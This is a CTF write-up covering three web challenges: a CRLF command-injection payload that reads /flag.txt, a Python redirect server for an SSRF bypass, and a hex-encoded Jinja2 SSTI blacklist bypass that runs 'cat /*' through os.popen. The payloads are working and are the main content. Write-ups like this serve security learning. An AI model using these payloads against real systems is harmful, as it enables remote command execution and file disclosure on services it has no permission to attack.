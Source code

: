 # 1337UP CTF

1. Command injection -> %0d%0a
2. SSRF -> redirecting
3. SSTI -> flask bypass blacklist

## Traveler
```
POST /package2-details.php
pack=Single'%20or1=1--%20-&submit=Submit
```
An error occurred whilst executing: bash check.sh Single' or 1=1--

```
POST /package2-details.php
pack=Single%0d%0acat%20/flag.txt&submit=Submit
```

**flag**: `1337UP{C0MM4nd_Inj3ti0n}`
## Dead Tube
https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery

SSRF bypass request local by redirecting.

```python
#!/usr/bin/env python3

#python3 ./server.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2] + ':8080/flag') # redirect to this path
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```
Using `ngrok` to tunnel

**flag**: `1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}`

## 1 truth, 2 lies

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

```python
import requests

url = 'https://1truth2lies.ctf.intigriti.io'

path = """/
 ▄█    ▄▄▄▄███▄▄▄▄         ▄█    █▄  ███    █▄   ▄█       ███▄▄▄▄      ▄████████    ▄████████    ▄████████ ▀█████████▄   ▄█          ▄████████ 
███  ▄██▀▀▀███▀▀▀██▄      ███    ███ ███    ███ ███       ███▀▀▀██▄   ███    ███   ███    ███   ███    ███   ███    ███ ███         ███    ███ 
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▀    ███    ███   ███    ███   ███    ███ ███         ███    █▀  
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀   ███    ███  ▄███▄▄▄██▀  ███        ▄███▄▄▄     
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   ▀███████████ ▀▀███▀▀▀██▄  ███       ▀▀███▀▀▀     
███  ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▄  ▀███████████   ███    ███   ███    ██▄ ███         ███    █▄  
███  ███   ███   ███      ███    ███ ███    ███ ███▌    ▄ ███   ███   ███    ███   ███    ███   ███    ███   ███    ███ ███▌    ▄   ███    ███ 
█▀    ▀█   ███   █▀        ▀██████▀  ████████▀  █████▄▄██  ▀█   █▀    ██████████   ███    ███   ███    █▀  ▄█████████▀  █████▄▄██   ██████████ 
                                                ▀                                  ███    ███                           ▀"""
# pipe attribute, python support literal hex encoding
r =requests.get(url+path, params={
    'input': r"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /*')|attr('read')()}}"
    })

print(r.text)
```

**flag**: `flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}`
